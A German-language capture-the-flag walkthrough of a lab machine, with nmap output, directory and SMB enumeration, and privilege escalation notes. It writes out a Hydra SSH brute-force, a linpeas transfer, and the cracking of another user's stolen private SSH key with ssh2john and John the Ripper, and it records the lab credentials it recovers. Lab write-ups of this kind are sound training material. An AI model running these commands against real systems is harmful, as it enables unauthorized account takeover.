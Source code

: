 # ZIEL IP: 10.10.2.137

# Scanning
## NMAP 

22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)

80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

139/tcp  open  netbios-ssn Samba smbd 4.6.2

445/tcp  open  netbios-ssn Samba smbd 4.6.2

8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7

MAC Address: 02:2E:C0:97:36:1B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7


# Enumeration 

## gobuster 

Findings:
	/development

# Weiteres Vorgehen?
Kontrolle des /development Verzeichniss 
- Beinhaltet 2 txt datein 
- Info das es User -k und user -J gibt
- struts Version  2.5.12 (Open-Source-Framework für die Entwicklung von Java-Webanwendungen)
- Anscheinend hat J ein schwaches Passwort

Kontrolle des SMB Shares 
- Enumeration des SMB shares
	- Herausfinden vorhandener ordner via `smbclient -L //10.10.2.137/ -U '' -N`
		- IPC disk gefunden
	- Enumeration via enum4linux `enum4linux -a 10.10.2.137
		- Resultat User gefunden "kay" und User "jan"

Bruteforcing User Jan SSH?
- via Hydra `hydra -l jan -P /usr/share/wordlist/rockyouötxt 10.10.2.137 ssh`
- ERFOLG SSH Password für jan ist armando

# Privilegien Ausweiten
## Enumeration
via Linpeas
übertragen auf Ziel maschine via SCP

```
scp /desktop/linpeas.sh jan@10.10.118.192:/dev/shm
```

Habe es in shm (Shared Memory) geschoben falls weitere verwendung durch andere User bedarf
- chmod +x nicht vergessen


Findings Private SSH Key from Kay
anlegen als kay_id_rsa (auf attackbox) und zugriff ändern auf 600 (ssh keys müssen so angelegt sein)

Verbinden via des keys 

```
ssh -i kay_id_rsa kay@10.10.118.192
```

-> Ist PW gesichert 
	-> Versuch mit John the Ripper zu knacken 
	- umwandeln via ssh2john 
	-> `python3 ssh2john kay_id_rsa > hash.txt`
	- Knacken via
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
CREDS GEFUNDEN 
PW für den Key ist `beeswax`

-> abrufen der Datei im Home -> Letzte Flag Gefunden